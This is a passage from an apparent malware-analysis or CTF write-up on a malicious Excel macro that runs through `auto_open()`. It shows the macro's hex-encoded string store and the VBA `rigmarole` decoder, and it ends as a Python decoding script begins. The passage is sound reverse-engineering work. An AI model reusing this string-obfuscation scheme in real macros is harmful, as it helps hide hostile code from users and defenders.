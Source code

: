 I’ll start in `folderol`, as it’s the function called by the `auto_open()`,
but it quickly becomes clear that I’ll need to understand `rigamarole` to
understand `folderol`, so I’ll go there first.

One thing I’ll notice pretty quickly is that the static strings are encoded
and stored in the form. The first instruction is

    
    
    onzo = Split(F.L, ".")
    

From my new workbook, I can run `print F.L` in the Immediate window to see the
data:

    
    
    print F.L
    9655B040B64667238524D15D6201.B95D4E01C55CC562C7557405A532D768C55FA12DD074DC697A06E172992CAF3F8A5C7306B7476B38.C555AC40A7469C234424.853FA85C470699477D3851249A4B9C4E.A855AF40B84695239D24895D2101D05CCA62BE5578055232D568C05F902DDC74D2697406D7724C2CA83FCF5C2606B547A73898246B4BC14E941F9121D464D263B947EB77D36E7F1B8254.853FA85C470699477D3851249A4B9C4E.9A55B240B84692239624.CC55A940B44690238B24CA5D7501CF5C9C62B15561056032C468D15F9C2DE374DD696206B572752C8C3FB25C3806.A8558540924668236724B15D2101AA5CC362C2556A055232AE68B15F7C2DC17489695D06DB729A2C723F8E5C65069747AA389324AE4BB34E921F9421.CB55A240B5469B23.AC559340A94695238D24CD5D75018A5CB062BA557905A932D768D15F982D.D074B6696F06D5729E2CAE3FCF5C7506AD47AC388024C14B7C4E8F1F8F21CB64
    

Given the split on `.`, this looks like it creates an array of hex strings.
Each time one of these is referenced, it’s done so as `rigamarole(onzo(#))`.
So to understand `folderol`, I need to decode these strings first.

`rigmarole` is fairly simple:

    
    
    Function rigmarole(es As String) As String
        Dim furphy As String
        Dim c As Integer
        Dim s As String
        Dim cc As Integer
        furphy = ""
        For i = 1 To Len(es) Step 4
            c = CDec("&H" & Mid(es, i, 2))
            s = CDec("&H" & Mid(es, i + 2, 2))
            cc = c - s
            furphy = furphy + Chr(cc)
        Next i
        rigmarole = furphy
    End Function
    

It takes a hex string four characters at a time, breaking them into two pairs,
and converting each to an int. Then it subtracts the second from the first to
generate a character. It does this down the input to generate a string.

I wrote a short Python script to do that based on the code in `rigmarole`:

    
    
    #!/usr/bin/env python3
      